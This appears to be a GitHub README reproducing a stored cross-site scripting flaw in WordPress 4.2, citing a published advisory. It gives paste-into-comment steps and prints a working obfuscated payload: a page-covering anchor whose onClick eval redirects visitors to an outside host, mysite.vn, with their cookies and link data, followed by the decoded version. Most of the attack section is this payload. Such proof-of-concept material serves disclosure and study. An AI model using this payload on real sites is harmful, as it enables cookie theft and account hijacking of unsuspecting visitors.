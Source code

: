 # Introduction on reproducing the Vulnerability.

* Target platform : Wordpress version 4.2. Download [here](https://wordpress.org/download/release-archive/).
* Copy & Paste the script content in xss file
* Insert into the comment area of Wordpress blog
* Observing the code execution : ).

## How does the injected code work ?

The injected code redirects user to attacker's site with window.location using eval(), which is a function that allows user to execute arbitrary code on the fly, along with user's cookies to the attacker's server.

```html
<a title='xxx onClick=eval(unescape(/window.location%3D%27http%3A%2F%2Fmysite.vn%3Fc%3D%27%2Bdocument.links%5B1%5D.text%2B%27%26l%3D%27%2Bdocument.links%5B1%5D%2B%27%26c%3D%27%2Bdocument.cookie/.source)) style=position:absolute;left:0;top:0;width:5000px;height:5000px  AAA...[64kb]...AAA'></a>
```
unescape() decodes a encoded string. The unescape(string) version of the above code is equivalent to this:
```html
window.location='http://mysite.vn?c='+document.links[1].text+'&l='+document.links[1]+'&c='+document.cookie
```
References:
[WordPress 4.2 Stored XSS](https://klikki.fi/adv/wordpress2.html)
